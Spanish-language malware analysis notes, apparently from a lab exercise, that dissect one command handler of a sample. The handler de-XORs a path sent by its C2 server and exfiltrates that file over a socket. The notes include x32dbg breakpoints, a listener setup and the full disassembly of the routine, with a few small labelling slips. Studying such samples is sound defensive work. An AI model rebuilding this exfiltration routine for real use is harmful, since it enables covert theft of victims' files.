

# FUN_00402210 - Opcode 6

## 1. Descrifrar ruta. Primer XOR
- Lo primero que hace esta función es desofuscar con XOR 0x55 la ruta que llega desde el host C2.
- La ruta se encuentra en el parámetro: `ECX = [ESP+8]` apunta al buffer de 256 B recibido previamente del C2.
- Continúa la ejecución con un bucle 0040221F–0040222E, que recorre 0x100 bytes y hace byte ^= 0x55 → deja la ruta en claro en el mismo sitio.

## 2. CreateFileA (accesos y flags)
- Usa GENERIC_READ (0x80000000), FILE_SHARE_READ (0x1), OPEN_EXISTING (0x3) y FILE_FLAG_SEQUENTIAL_SCAN (0x08000000).
- No lleva GENERIC_WRITE.

## 3. CreateFileMappingA / MapViewOfFile
- flProtect = 0x08000002 = SEC_COMMIT | PAGE_READONLY (no PAGE_READWRITE).
- MapViewOfFile con FILE_MAP_READ (0x4). El mapa es solo lectura.

## 4. Segundo XOR (0x200 bytes en la pila)
- Ese bucle XORea un buffer propio en la pila para formar el header (0x200 bytes XOReados);
no es el contenido del fichero.
- El DWORD tamaño va después, en claro, en el offset 0x200 del header.

## 5. Envíos por red
- 1º send(sock, [ESP+0x14], 0x204, 0) → header (0x200 XOReados + size LE).
- 2º send(sock, EDI, size, 0) → datos del fichero en claro (desde la vista mapeada).

## 6 .Entrada / parámetro
- Correcto: param_2 apunta a 256 bytes XOReados con 0x55; el bucle los des-XORea (0x100 = 256).

## 7. Limpia (Unmap + Close)
No hay “ok/err” como en opcode 5.

___________________________________________
# Análisis Dinámico del Opcode 6

## Listener en python para poder probar este opcode
[listener-opcode6](../analisis-dinamico/listener-opcode6.py)

Activamos en la MV Remnux un listener para probar este opcode en x32dbg y hacemos una captura de los paquetes que circulan por la red:
```
sudo tcpdump -i any host 10.0.0.4
sudo pythom3 listener-opcode6.py
```

## Descifrar ruta  del fichero a exfiltrar (XOR 0x55, 0x100 bytes)
- BP: 0040221F (inicio del bucle)  
  
  La ruta se encuentra en el parámetro: `ECX` que apunta al buffer de 256 B recibido previamente del C2. Hacemos un dump y vemos el contenido enviado por el C2 ofuscado.
  
- BP: 00402230 (fin del bucle)
    
  Miramos: ECX → Follow in Dump para ver la ruta en claro que se usará.

## Abrir el archivo a exfiltrar
- **BP: 00402230 Previo al uso del API CreateFileA.** Parámetros que se utilizarán para la API de WriteFileA:
  ```
  push 0x0                ; hTemplateFile
  push 0x08000000         ; dwFlagsAndAttributes
  push 0x3                ; dwCreationDisposition (OPEN_EXISTING)
  push 0x0                ; lpSecurityAttributes
  push 0x1                ; dwShareMode (FILE_SHARE_READ)
  push 0x80000000         ; dwDesiredAccess (GENERIC_READ)
  push ecx                ; lpFileName  (ruta ya en claro)
  call CreateFileA
  ```
    


- **00402243 - API CreateFile:**
  ```
  HANDLE CreateFileA(
    [in]           LPCSTR                lpFileName,
    [in]           DWORD                 dwDesiredAccess,
    [in]           DWORD                 dwShareMode,
    [in, optional] LPSECURITY_ATTRIBUTES lpSecurityAttributes,
    [in]           DWORD                 dwCreationDisposition,
    [in]           DWORD                 dwFlagsAndAttributes,
    [in, optional] HANDLE                hTemplateFile
  );
  ```
    


- Al entrar en CreateFileA (o en el punto de la instrucción call):
  - Layout en la pila (desde ESP+4)
  - [ESP+04] = lpFileName → puntero a la ruta (la que se acaba de des-XORear).
  - Tip: Follow in Dump dword ptr [ESP+4] para ver la cadena.
  - [ESP+08] = dwDesiredAccess → 0x80000000 (GENERIC_READ).
  - [ESP+0C] = dwShareMode → 0x00000001 (FILE_SHARE_READ).
  - [ESP+10] = lpSecurityAttributes → NULL.
  - [ESP+14] = dwCreationDisposition → 0x00000003 (OPEN_EXISTING).
  - [ESP+18] = dwFlagsAndAttributes → 0x08000000 (FILE_FLAG_SEQUENTIAL_SCAN).
  - [ESP+1C] = hTemplateFile → NULL.
        

## Crear mapeo y vista
- Este mapeo se hace por:
  - Crear un “mapeo de archivo” (section) para poder leer el fichero directamente desde memoria sin hacer bucles ReadFile.
  - Simplicidad/performance: acceden al archivo como si fuera memoria; el MM del SO trae las páginas que hagan falta.
  
  
- BP: 00402262 (CreateFileMappingA) → EBX=hMap (si 0 ⇒ cleanup).  
  
  
- BP: 00402288 (MapViewOfFile) → EDI=base del mapeo (si 0 ⇒ cleanup 004022F1).
  

## Tamaño del fichero
  

- Avanzamos un paso con F8.  
  
- `040229D mov dword ptr ss:[esp+20C], eax.`
- `EAX` contiene el tamaño (low-order DWORD).
- EAX = 0x00000027, que son 39 bytes en decimal.
- Tambien podemos mirar en: `[ESP+0x20C] (DWORD)`. Ya que EAX se copiará en ese punto de la memoria.


## Construcción del “header” (512B XOR)
  
- BP: 004022A6 (inicio XOR 0x55 sobre [ESP+0x0C..+0x20B], 0x200 bytes)


  
- BP: 004022B7 (fin del XOR)

## Envíos al host C2
- **Primer envío - 004022CE: send del header ofuscado - 0x204**
  
  
  - La llamada es: `send(sock=EBP, buf=[ESP+0x14], len=0x204, flags=0)`.
    ```
    [esp] = 0x000002B8 → s = socket handle (también en EBP).
    [esp+4] = 0x0019F798 → buf = puntero a la cabecera ofuscada
    [esp+8] = 0x0000204 → len = 
    [esp+10]= 0019FF30 → flags = 0.

    Registros:
    EBP = 0x000002B8 (socket)
    ```
      
  - [esp+4] = socket (EBP).
  - [ESP+0x14] = buff. Contenido de la cabecera ofuscada.
  - [esp+8] = ptr header ([esp+8] apunta a ESP+0x14).
  - [esp+0xC]= len = 0x204.
  - [esp+0x10]= flags = 0.  


- **Segundo envío: El contenido en crudo del fichero que se exfiltra**
  
  
  - La llamada es: `send(sock=EBP, buf=[ESP+0x14], len=0x204, flags=0)`.
  - Pilas/Registros justo antes del call:
    ```
    [esp] = 0x000002B8 → s = socket handle (también en EBP).
    [esp+4] = 0x00BE0000 → buf = puntero al fichero mapeado (también en EDI).
    En el Dump se ve el texto en claro: "Hola Mundo … la máquina infectada…"
    [esp+8] = 0x00000027 → len = 39 bytes (coincide con GetFileSize que dejó EAX=0x27 antes).
    [esp+10]= 0x00000000 → flags = 0.

    Registros:
    EBP = 0x000002B8 (socket), EDI = 0x00BE0000 (base de la vista de MapViewOfFile),
    ECX = 0x27 (tamaño a enviar).
    ```

____________________________________________

# FUN_00402210 Decompilada
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __cdecl FUN_00402210(undefined4 param_1, LPCST
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x4]:4   param_1
             LPCSTR            Stack[0x8]:4   param_2                                 XREF[1]:     00402210(R)  
                             FUN_00402210                                    XREF[1]:     FUN_004012f0:00401789(c)  
        00402210 8b 4c 24 08     MOV        ECX,dword ptr [ESP + param_2]
        00402214 81 ec 04        SUB        ESP,0x204
                 02 00 00
        0040221a 33 c0           XOR        EAX,EAX
        0040221c 53              PUSH       EBX
        0040221d 56              PUSH       ESI
        0040221e 57              PUSH       EDI
                             LAB_0040221f                                    XREF[1]:     0040222e(j)  
        0040221f 8a 1c 08        MOV        BL,byte ptr [EAX + ECX*0x1]
        00402222 80 f3 55        XOR        BL,0x55
        00402225 88 1c 08        MOV        byte ptr [EAX + ECX*0x1],BL
        00402228 40              INC        EAX
        00402229 3d 00 01        CMP        EAX,0x100
                 00 00
        0040222e 7c ef           JL         LAB_0040221f
        00402230 6a 00           PUSH       0x0
        00402232 68 00 00        PUSH       0x8000000
                 00 08
        00402237 6a 03           PUSH       0x3
        00402239 6a 00           PUSH       0x0
        0040223b 6a 01           PUSH       0x1
        0040223d 68 00 00        PUSH       0x80000000
                 00 80
        00402242 51              PUSH       ECX
        00402243 ff 15 40        CALL       dword ptr [->KERNEL32.DLL::CreateFileA]          = 0000993c
                 90 40 00
        00402249 8b f0           MOV        ESI,EAX
        0040224b 83 fe ff        CMP        ESI,-0x1
        0040224e 0f 84 a9        JZ         LAB_004022fd
                 00 00 00
        00402254 6a 00           PUSH       0x0
        00402256 6a 00           PUSH       0x0
        00402258 6a 00           PUSH       0x0
        0040225a 68 02 00        PUSH       0x8000002
                 00 08
        0040225f 6a 00           PUSH       0x0
        00402261 56              PUSH       ESI
        00402262 ff 15 50        CALL       dword ptr [->KERNEL32.DLL::CreateFileMappingA]   = 0000997a
                 90 40 00
        00402268 8b d8           MOV        EBX,EAX
        0040226a 85 db           TEST       EBX,EBX
        0040226c 75 11           JNZ        LAB_0040227f
        0040226e 56              PUSH       ESI
        0040226f ff 15 38        CALL       dword ptr [->KERNEL32.DLL::CloseHandle]          = 00009922
                 90 40 00
        00402275 5f              POP        EDI
        00402276 5e              POP        ESI
        00402277 5b              POP        EBX
        00402278 81 c4 04        ADD        ESP,0x204
                 02 00 00
        0040227e c3              RET
                             LAB_0040227f                                    XREF[1]:     0040226c(j)  
        0040227f 6a 00           PUSH       0x0
        00402281 6a 00           PUSH       0x0
        00402283 6a 00           PUSH       0x0
        00402285 6a 04           PUSH       0x4
        00402287 53              PUSH       EBX
        00402288 ff 15 4c        CALL       dword ptr [->KERNEL32.DLL::MapViewOfFile]        = 0000996a
                 90 40 00
        0040228e 8b f8           MOV        EDI,EAX
        00402290 85 ff           TEST       EDI,EDI
        00402292 74 5d           JZ         LAB_004022f1
        00402294 6a 00           PUSH       0x0
        00402296 56              PUSH       ESI
        00402297 ff 15 88        CALL       dword ptr [->KERNEL32.DLL::GetFileSize]          = 0000995c
                 90 40 00
        0040229d 89 84 24        MOV        dword ptr [ESP + 0x20c],EAX
                 0c 02 00 00
        004022a4 33 c0           XOR        EAX,EAX
                             LAB_004022a6                                    XREF[1]:     004022b7(j)  
        004022a6 8a 4c 04 0c     MOV        CL,byte ptr [ESP + EAX*0x1 + 0xc]
        004022aa 80 f1 55        XOR        CL,0x55
        004022ad 88 4c 04 0c     MOV        byte ptr [ESP + EAX*0x1 + 0xc],CL
        004022b1 40              INC        EAX
        004022b2 3d 00 02        CMP        EAX,0x200
                 00 00
        004022b7 7c ed           JL         LAB_004022a6
        004022b9 55              PUSH       EBP
        004022ba 8b ac 24        MOV        EBP,dword ptr [ESP + 0x218]
                 18 02 00 00
        004022c1 6a 00           PUSH       0x0
        004022c3 8d 44 24 14     LEA        EAX,[ESP + 0x14]
        004022c7 68 04 02        PUSH       0x204
                 00 00
        004022cc 50              PUSH       EAX
        004022cd 55              PUSH       EBP
        004022ce ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        004022d4 8b 8c 24        MOV        ECX,dword ptr [ESP + 0x210]
                 10 02 00 00
        004022db 6a 00           PUSH       0x0
        004022dd 51              PUSH       ECX
        004022de 57              PUSH       EDI
        004022df 55              PUSH       EBP
        004022e0 ff 15 68        CALL       dword ptr [->WS2_32.DLL::Ordinal_19]             = 80000013
                 91 40 00
        004022e6 5d              POP        EBP
        004022e7 83 f8 ff        CMP        EAX,-0x1
        004022ea 57              PUSH       EDI
        004022eb ff 15 44        CALL       dword ptr [->KERNEL32.DLL::UnmapViewOfFile]      = 0000994a
                 90 40 00
                             LAB_004022f1                                    XREF[1]:     00402292(j)  
        004022f1 8b 3d 38        MOV        EDI,dword ptr [->KERNEL32.DLL::CloseHandle]      = 00009922
                 90 40 00
        004022f7 53              PUSH       EBX
        004022f8 ff d7           CALL       EDI=>KERNEL32.DLL::CloseHandle
        004022fa 56              PUSH       ESI
        004022fb ff d7           CALL       EDI=>KERNEL32.DLL::CloseHandle
                             LAB_004022fd                                    XREF[1]:     0040224e(j)  
        004022fd 5f              POP        EDI
        004022fe 5e              POP        ESI
        004022ff 5b              POP        EBX
        00402300 81 c4 04        ADD        ESP,0x204
                 02 00 00
        00402306 c3              RET
        00402307 90              ??         90h
        00402308 90              ??         90h
        00402309 90              ??         90h
        0040230a 90              ??         90h
        0040230b 90              ??         90h
        0040230c 90              ??         90h
        0040230d 90              ??         90h
        0040230e 90              ??         90h
        0040230f 90              ??         90h

``
    
